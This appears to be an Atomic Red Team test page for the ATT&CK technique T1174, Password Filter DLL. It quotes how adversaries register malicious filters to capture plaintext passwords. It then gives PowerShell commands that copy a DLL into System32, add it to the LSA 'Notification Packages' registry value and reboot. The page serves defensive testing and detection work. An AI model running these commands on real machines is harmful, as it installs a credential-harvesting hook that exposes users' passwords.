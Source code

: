 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder&#92;T1174&#92;src&#92;AtomicPasswordFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```




#### Dependencies:  Run with `powershell`!
##### Description: AtomicPasswordFilter.dll must exist on disk at specified location (#{input_dll})
##### Check Prereq Commands:
```powershell
if (Test-Path #{input_dll}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own password filter dll"
```




<br/>

